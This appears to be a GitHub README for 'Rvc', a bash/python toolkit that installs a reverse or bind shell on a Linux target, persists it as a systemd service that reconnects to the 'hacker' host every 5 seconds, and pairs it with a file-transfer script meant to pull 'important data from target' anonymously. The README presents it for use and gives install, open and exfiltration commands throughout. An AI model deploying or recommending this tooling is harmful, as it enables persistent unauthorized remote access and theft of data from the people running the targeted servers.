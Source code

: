 # Rvc Reverse and Bind shell

A script for creating a reverse and bind shell tunnel for linux servers 
Not actual rsh that uses RCE for injecting the vulnerability.

Reverse Shell:
![demo image0](demo-rsh.jpg)

Bind Shell:
![demo image1](demo-bsh.jpg)

## Features

1) Complete control of remote shell including ctrl+.. signals.
2) Supports interaction with text editors like nano, vim, emacs on remote shell as well !!
3) Auto tab completion supported.
4) Ansi color output and characters supported.
5) Dynamic communiation with the launched command.
6) Install and uninstall as a systemd service on target with autostart on boot.
7) Target RSH client always tries every 5 seconds to reconnect to the hacker server.
8) Less bandwidth consumption and never hangs up.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

This script was tested on Ubuntu 18.04 LTS and Kali Linux 2019.3
However this script needs some basic bash primitives in a normal linux distribution.

Server side:: Target side
1) bash
2) python (2 or 3)
3) stty (for setting terminal window)
4) systemctl service support (for installation and autostart)

Client side:: Hacker side 
1) bash
2) python (2 or 3)
3) stty (for getting hacker terminal sizes)
4) awk interpreter and hostname utility

## Deployment

The following steps will guide you setting up a Reverse Shell between two pcs in same network

to set the reverse shell to connect to the hacker ip address.

1) Copy this file on Target pc and either install (run as root) or expose its terminal to hacker pc. Run
```
./rvc-rsh install (hacker hostname) (port no)
or
./rvc-rsh expose  (hacker hostname) (port no)

for bsh

./rvc-bsh install (target hostname) (port no)
or
./rvc-bsh expose  (target hostname) (port no)


uninstall on target:
./rvc-rsh uninstall
or 
./rvc-bsh uninstall
```
Give the hostname and port no. to open a connection.
Just remember for now the script supports only one rsh client install per target pc if you want to.

2) on hacker terminal to open a client bearing (hacker hostname) and (port no) run
```
./rvc-rsh open (hacker hostname) (port no)
for bsh
./rvc-bsh open (target hostname) (port no)
```
This will establish a TCP connection between the hacker and the target shells
And MAGIC !! you will entirely get the remote console with all above mentioned features !!

### Complimentary File transfer utility

File transfer script (rvc-ft) however is not the actual part of this repo but 
after some experiments using rsh and bsh we urgently felt a need for an anonymous file transfer
to get important data from target. For that we wrote our own naive FTP over TCP in python
to enable raw file transfer. We have written this FTP in both reverse and bind methodologies.
This script is to be copied with the other scripts on target pc to enable its features obviously.

A) Reverse transfer

![demo image2](demo-rft.jpg)

1) first start rvc-ft in reciever mode 
```
./rvc-ft recv (reciever hostname) (port no.) (path/to/save/file/as)
```
2) then transmit the remote file
```
./rvc-ft send (reciever hostname) (port no.) (remote/path/to/file)
```
3) have patience and DONE!! because no progress bars, etc.


B) Bind transfer

![demo image3](demo-bft.jpg)

1) first start rvc-bft in sender mode 
```
./rvc-bft send (sender hostname) (port no.) (remote/path/to/file)
```
2) then transmit the remote file
```
./rvc-bft recv (sender hostname) (port no.) (path/to/save/file/as)
```
3) have patience and DONE!! because no progress bars, etc.

## Author

* **Rajas Chavadekar** 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

